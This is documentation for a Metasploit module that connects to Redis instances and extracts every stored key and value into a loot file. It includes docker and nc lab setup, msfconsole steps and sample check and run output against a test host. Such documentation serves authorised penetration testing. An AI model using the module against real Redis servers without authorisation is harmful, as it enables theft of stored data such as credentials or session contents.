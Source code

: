 ## Vulnerable Application

This module attaches to a Redis instance and extracts all stored keys and their associated data. If multiple databases are present the module will iterate through each.

This module works on Redis versions 2.8.0 and later, and has been tested on versions through 6.0.8.

To prepare a test instance of Redis,first install Redis v2.8.0 or greater. This can be done in docker with:

`docker run -d -p 6379:6379 --name redis redis`

Next, add some data to the database:

`echo 'set key1 value1' | nc 127.0.0.1 6379 > /dev/null` (MacOS, may differ on Linux)

Alternately, to run docker with a password:

```bash
docker run -d -p 6379:6379 --name redis redis --requirepass abcde
echo 'auth abcde \n set key2 value2' | nc 127.0.0.1 6379 > /dev/null
``` 


## Verification Steps

1. Install Redis and add data as described above.
1. Start `msfconsole`
1. Do: `use auxiliary/gather/redis_extractor`
1. Do: `set rhosts [ip.of.redis.app]` 
1. Do: `set PASSWORD [redis_password]` (optional)
1. Do: `check` (optional)
1. You will receive information about the Redis instalce.
1. Do: `run`
1. You will receive a screendump of the cached keys and contet.
1. A CSV file with keys and content will be saved in your loot directory.

## Options

### PASSWORD

The password for the redis instance. This value will be ignored for instances with no password required.

### LIMIT_COUNT

Stop after retrieving this number of keys, per datastore. Note that one redis instance may have more than one datastore. This modules also pulls values down in batches, so it may go slightly over this limit.

## Scenarios

### Check 

```
msf > use auxiliary/gather/redis_extractor
msf auxiliary(gather/redis_extractor) > set rhosts 172.22.12.168
rhosts => 172.22.12.168
msf auxiliary(gather/redis_extractor) > check

[+] 172.22.12.168:6379    - Connected to Redis version 6.0.8
[*] 172.22.12.168:6379    - OS is Linux 5.4.39-linuxkit x86_64
[*] 172.22.12.168:6379 - The target appears to be vulnerable.
msf auxiliary(gather/redis_extractor) >
```

### Run

```
msf > use auxiliary/gather/redis_extractor
msf auxiliary(gather/redis_extractor) > set rhosts 172.22.12.168
rhosts => 172.22.12.168
msf auxiliary(gather/redis_extractor) > run

[+] 172.22.12.168:6379    - Connected to Redis version 6.0.8
[*] 172.22.12.168:6379    - Extracting about 1 keys from database 0

Data from 172.22.12.168:6379    database 0
==========================================

 Key   Value
 ---   -----
 key1  value1

[+] 172.22.12.168:6379    - Redis data stored at /root/.msf4/loot/20201113203708_default_172.22.12.168_redis.dump_db0_836292.txt
[*] 172.22.12.168:6379    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(gather/redis_extractor) >
```
